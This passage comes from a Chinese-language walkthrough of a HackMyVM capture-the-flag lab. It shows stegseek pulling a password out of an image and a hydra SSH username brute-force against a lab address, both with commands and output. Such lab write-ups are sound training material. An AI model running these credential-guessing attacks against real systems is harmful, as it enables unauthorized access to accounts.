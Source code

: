 ![assets/saint.jpg](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/saint.jpg)

到此 我们已经基本完成信息收集
目前得到的有
- 图片 `saint.jpg` 
- 首页 ` <img src="saint.jpg">`
- 关键词 `saint`

下一步我们大概有这几种方式进行
1. 解密图片。看图片里面是否存在可用信息
2. 利用关键词作为用户名进行ssh爆破
## 3. 图片解密
既然给我们的东西很少，且只有一张图。那么这张图多半是有东西的
利用[[26-工具使用/StegSeek使用\|stegseek]]工具解密

```bash
┌──(pwncat-env)─(root㉿kali)-[/home/kali/hmv/Soul]
└─# stegseek  saint.jpg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "pass.txt".
[i] Extracting to "saint.jpg.out".
the file "saint.jpg.out" does already exist. overwrite ? (y/n)
y

┌──(pwncat-env)─(root㉿kali)-[/home/kali/hmv/Soul]
└─# cat saint.jpg.out
lionsarebigcats
```

获取到一个关键字符串 `lionsarebigcats`

尝试利用这个作为密码，将 `saint` 作为用户名进行登录。但是失败了
可能是用户名错误了

### 3.1. 爆破用户名
爆破一下用户名
```bash
┌──(root㉿kali)-[/home/kali/hmv/Soul]
└─# hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p lionsarebigcats 192.168.80.10 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-02 12:43:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking ssh://192.168.80.10:22/
[22][ssh] host: 192.168.80.10   login: daniel   password: lionsarebigcats

```
